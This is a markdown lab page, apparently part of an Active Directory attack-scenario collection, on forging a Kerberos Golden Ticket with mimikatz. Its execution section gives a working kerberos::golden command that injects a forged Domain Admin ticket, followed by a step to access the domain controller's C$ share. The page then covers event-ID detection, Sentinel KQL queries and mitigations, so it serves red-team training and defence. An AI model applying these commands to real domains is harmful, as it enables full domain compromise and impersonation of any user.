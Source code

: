 # Attack Scenario: Golden Ticket Attack
The Golden Ticket attack involves forging a Kerberos Ticket Granting Ticket (TGT) using the krbtgt account’s NTLM hash. This allows an attacker to impersonate any user, including Domain Admins, for any service in the domain — with or without a corresponding AD object.

This attack is typically used after a successful DCSync operation.

## MITRE ATT&CK Techniques:
- T1558.001 – Forge Kerberos Tickets (Golden Ticket)
- T1550.002 – Use of Valid Accounts: Pass-the-Ticket

## Lab Environment
- **Domain Controller:** dc01.internal.lab
- **Domain:** internal.lab
- **SID:** S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX
- **NTLM hash of krbtgt obtained via DCSync**
- **Attacker system:** attacker-vm

## Preconditions:

- Attacker has retrieved the krbtgt NTLM hash and domain SID
- Attacker has mimikatz or similar tooling available

## Objectives
- Forge a valid Kerberos TGT with arbitrary user details
- Inject the forged ticket into the current session
- Access privileged network resources (e.g., C$ shares, AD services)

## Execution Steps
Forge Golden Ticket

### Using mimikatz:

```kerberos::golden /user:Administrator /domain:internal.lab /sid:S-1-5-21-XXXXXXXXX /krbtgt:<NTLMHASH> /id:500 /groups:512 /ptt```

**Parameters:**

/user: - the fake username (can be real or fabricated)
/domain: - AD domain name
/sid: - domain SID
/krbtgt: - NTLM hash from DCSync
/id:500 - RID of the impersonated user (500 = Administrator)
/groups: - group RIDs (e.g., 512 = Domain Admins)
/ptt - injects the ticket into current session

### Confirm Ticket Injection

```kerberos::list```

Ensure a TGT is present for the spoofed user.

### Access Resources

Try to access:

```dir \\dc01.internal.lab\C$```

Or use PsExec, WMI, or RDP to confirm administrative access.

## Detection Guidance
### Logs and Indicators
Unusual Kerberos ticket activity from non-privileged hosts

4624 logon events with high-privilege SIDs from suspicious systems

4768/4769/4770 events where TGTs or TGSs are issued from suspicious clients

### Detection Queries (KQL - Microsoft Sentinel)
Suspicious Logon with Domain Admin RID (500):

```
SecurityEvent
| where EventID == 4624
| where TargetUserSid endswith "-500"
| where Account != "Administrator"
```

Unusual number of group RIDs in ticket:

```
SecurityEvent
| where EventID == 4624
| where LogonProcessName == "Kerberos"
| where AccountType == "User"
| extend GroupCount = array_length(SupplementaryGroups)
| where GroupCount > 10
```

## Mitigations
- Regularly rotate the krbtgt password (twice if possible)
- Detect and block anomalous ticket lifetimes and SID values
- Monitor use of administrative group RIDs from non-standard hosts
- Use tiered admin model to isolate Domain Admin access to jump boxes

## References
- https://adsecurity.org/?p=1640
- https://www.harmj0y.net/blog/redteaming/kerberos-attacks/
- https://attack.mitre.org/techniques/T1558/001/
- https://github.com/gentilkiwi/mimikatz

## Navigation
[Back to Lab Index:](../../README.md)
[Related: NTLM Relay](../NTLM-relay.md)

